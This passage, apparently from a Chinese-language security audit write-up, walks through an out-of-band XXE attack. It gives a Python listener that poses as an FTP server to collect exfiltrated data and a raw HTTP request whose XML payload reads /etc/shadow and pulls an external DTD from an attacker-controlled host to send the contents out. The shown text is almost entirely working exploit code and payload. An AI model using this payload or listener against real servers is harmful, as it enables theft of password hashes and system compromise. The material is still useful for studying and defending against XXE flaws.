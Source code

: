 3)运行以下脚本，启动ftp服务器（检查防火墙是否开放21端口）

Python xxe-ftp.py

![20190114223319]({{site.baseurl}}/assets/images/审计/20190114223319.png)

```python
#!/usr/env/python
from __future__ import print_function
import socket

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind(('0.0.0.0',21))
s.listen(1)
print('XXE-FTP listening ')
conn,addr = s.accept()
print('Connected by %s',addr)
conn.sendall('220 Staal XXE-FTP\r\n')
stop = False
while not stop:
    dp = str(conn.recv(1024))
    if dp.find("USER") > -1:
        conn.sendall("331 password please - version check\r\n")
    else:
        conn.sendall("230 more data please!\r\n")
    if dp.find("RETR")==0 or dp.find("QUIT")==0:
        stop = True
    if dp.find("CWD") > -1:
        print(dp.replace('CWD ','/',1).replace('\r\n',''),end='')
    else:
        print(dp)

conn.close()
s.close()
```

4)发送以下报文：

```
POST /xxx/*** HTTP/1.1
Host: target_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: application/json, text/javascript, */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
X-Requested-With: XMLHttpRequest
Referer: https://target_ip/xxx/***.jsp
ContentType: pplication/x-www-form-urlencoded
Cookie: JSESSIONID=WwV5E_ZpZVWhnIKEaFuuphs1.localhost; ops.cookie.principal=xxxxx
DNT: 1
Connection: close
Content-Type: text/xml
Content-Length: 159

<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/shadow">
<!ENTITY % sp SYSTEM "http://Your_IP/test.dtd">
%sp;
%param3;
%exfil;
]>
```
